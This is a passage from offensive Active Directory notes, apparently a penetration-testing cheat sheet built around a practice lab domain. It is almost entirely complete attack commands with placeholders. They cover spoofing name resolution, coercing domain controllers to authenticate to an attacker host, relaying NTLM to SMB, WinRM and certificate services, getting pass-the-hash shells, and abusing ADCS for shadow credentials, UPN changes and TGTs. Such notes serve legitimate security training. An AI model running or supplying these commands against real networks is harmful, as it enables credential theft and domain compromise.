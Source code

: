    - `pretender -i "{network_interface}" --spoof "localhost1UWhRCAAAAAAAAAAAAAAAAAAAAAAAAAAAAwbEAYBAAAA" --no-dhcp-dns --no-timestamps`
      - Can also use responder
    - `coercer coerce -t BRAAVOS.ESSOS.LOCAL -l localhost1UWhRCAAAAAAAAAAAAAAAAAAAAAAAAAAAAwbEAYBAAAA -u {domain_user} -p {password} -d {domain}`
    - `ntlmrelayx.py -t BRAAVOS.ESSOS.LOCAL -smb2support`
      - We also don't have to relay to SMB, we can use other protocols (winrms, mssql, ESC8 attack) if SMB signing is disabled
      - `ntlmrelayx.py -t winrms://BRAAVOS.ESSOS.LOCAL -smb2support`
        - As of September 2025, this requires Ipmacket's 0.13.0 dev, which can be installed by cloning the repo and `pip install .` inside a venv
  - If we can't do name resolution poisoning, we should attempt to add a DNS record on the machine itself
    - `python3 dnstool.py -u '{domain}\{user}' -p {password} {target_ip} -a add -r localhost1UWhRCAAAAAAAAAAAAAAAAAAAAAAAAAAAAwbEAYBAAAA -d {kali_IP}`

## Getting execution with credentials or hashes
- Shells:
  - 135 - use `wmiexec.py -hashes :{hash} '{domain}/{user}@{ip}'`
  - 139/445 - use `psexec.py -hashes :{hash} '{domain}/{user}@{ip}'` or `smbexec.py`
  - 593 - use `atexec.py -hashes :{hash} '{domain}/{user}@{ip}' "{command}"`
  - 3389 - user `xfreerdp3 /u:{user} /d:{domain} /pth:{hash} /v:{IP}`
    - `/p:{password}` if we have it
  - 5985 - use `evil-winrm -i {IP} -u '{domain}\{username}' -H {hash}`
    - `-r {domain}` optional, used for kerberos

## ADCS
- [ESC 1-16 breakdown with exploitation steps](https://github.com/ly4k/Certipy/wiki/06-%E2%80%90-Privilege-Escalation)
  - Follow these steps to a TEE. It might say "optional" or something, but just do it, it can be finnicky
- Certify
  - Run on the Windows side
  - [https://github.com/GhostPack/Certify](https://github.com/GhostPack/Certify)
    - Requires compilation, unless we want to use [https://github.com/r3motecontrol/Ghostpack-CompiledBinaries/blob/master/dotnet%20v4.8.1%20compiled%20binaries/Certify.exe](https://github.com/r3motecontrol/Ghostpack-CompiledBinaries/blob/master/dotnet%20v4.8.1%20compiled%20binaries/Certify.exe)
  - `Certify.exe find /vulnerable`
- certipy
  - `certipy find -u {user}@{domain} -p {password} (-hashes {nthash}) -dc-ip {dc_ip} -text`
    - Use `-vulnerable` to cut the output down a bit
  - This will identify if any certificate authorities are vulnerable to ESC1 through ESC16
    - If they are, refer to [Orange Cyberdefense's mindmap](https://orange-cyberdefense.github.io/ocd-mindmaps/img/mindmap_ad_dark_classic_2025.03.excalidraw.svg) for exploitation details on each
  - Use templates from these CAs that have `Enabled True` and `Client Authentication True`
  - ESC8 relay example:
    - `python PetitPotam.py {kali_IP} {coercable_DC_IP}` to get a different DC to authenticate to us
    - Use `ntlmrelayx.py -t http://{target_DC_IP}/certsrv/certfnsh.asp -smb2support --adcs --template '{vuln_template_name}'` to relay the auth to the target
      - `--template` just specifies the template name we're user from the vulnerable CA 
  - Update a user's userPrincipalName (upn): `certipy account -u "{user}@{domain}" -p {password} -dc-ip {dc_ip} -user '{user_to_check}' -upn '{upn_to_update_to}' update`
  - Get shadow credentials for a user: `certipy shadow -u "{user}@{domain}" -p {password} -dc-ip {dc_ip} -account '{target_user}' auto`
  - Request a TGT for a user: `certipy req -k -dc-ip {dc_ip} -target '{DC_fqdn}' -ca '{CA_name_from_certipy}' -template 'User'`
    - Alternatively, we can use impacket's `getTGT.py` with `getTGT.py '{domain}/{user}:{password}' -dc-ip {dc_ip}`
  - Auth with pfx (TGT): `certipy auth -pfx '{pfx_file}' -dc-ip '{dc_ip}' -domain '{domain}'`
    - If this fails due to "Certificate is not valid for client authentication", we can use `-ldap-shell` for an LDAP shell instead